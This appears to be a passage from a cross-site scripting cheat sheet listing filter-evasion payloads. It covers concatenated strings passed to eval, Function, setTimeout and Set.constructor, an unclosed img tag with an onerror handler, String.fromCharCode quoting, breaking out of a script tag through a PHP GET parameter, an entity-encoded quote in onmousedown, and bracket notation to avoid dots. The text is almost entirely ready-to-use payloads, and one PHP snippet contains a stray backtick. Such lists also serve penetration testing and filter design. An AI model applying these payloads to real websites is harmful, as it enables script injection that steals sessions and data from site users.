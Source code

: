 ### Bypass word blacklist with code evaluation

```javascript
eval('ale'+'rt(0)');

Function("ale"+"rt(1)")();

new Function`al\ert\`6\``;

setTimeout('ale'+'rt(2)');

setInterval('ale'+'rt(10)');

Set.constructor('ale'+'rt(13)')();

Set.constructor`al\x65rt\x2814\x29```;
```

### Bypass with incomplete html tag

Works on IE/Firefox/Chrome/Safari

```javascript
<img src='1' onerror='alert(0)' <
```

### Bypass quotes for string

```javascript
String.fromCharCode(88,83,83)
```

### Bypass quotes in script tag

```javascript
http://localhost/bla.php?test=</script><script>alert(1)</script>
<html>
  <script>
    <?php echo 'foo="text '.$_GET['test'].'";';`?>
  </script>
</html>
```

### Bypass quotes in mousedown event

You can bypass a single quote with &#39; in an on mousedown event handler

```javascript
<a href="" onmousedown="var name = '&#39;;alert(1)//'; alert('smthg')">Link</a>
```

### Bypass dot filter

```javascript
<script>window['alert'](document['domain'])</script>
```
